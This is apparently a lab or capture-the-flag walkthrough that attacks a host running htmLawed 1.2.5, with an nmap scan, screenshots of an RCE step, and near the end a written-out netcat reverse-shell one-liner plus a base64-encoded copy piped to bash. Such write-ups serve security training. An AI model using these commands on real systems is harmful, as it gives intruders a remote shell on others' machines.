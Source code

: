 ## First enumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Tue Feb 20 14:22:09 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 22,80 -Pn 192.168.239.190
Nmap scan report for 192.168.239.190
Host is up (0.27s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: htmLawed (1.2.5) test
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 20 14:22:25 2024 -- 1 IP address (1 host up) scanned in 16.09 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/566e82a0-d864-46f8-9119-546ae6e7bcc5)

a web server is runing on port `80` opening it on a browser, we can see it is running `htmlawed 1.2.5`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/18e08424-2514-427b-af39-b045282b4990)

after some research found out that it is vuln to RCE by abusing some functions in the settings.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/84c43fe6-8cca-4d09-987d-ad6caa52fc33)

intercept with burp and forward. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/791b4b98-ba67-415a-9179-7a334d292d01)

we triggered RCE. now let's get a reverse shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.212 80 >/tmp/f

#base64 encode
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMjEyIDgwID4vdG1wL2Y=

echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMjEyIDgwID4vdG1wL2Y= | base64 -d|bash
```



![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/60c697de-2254-4e09-b05f-666ce18183f8)

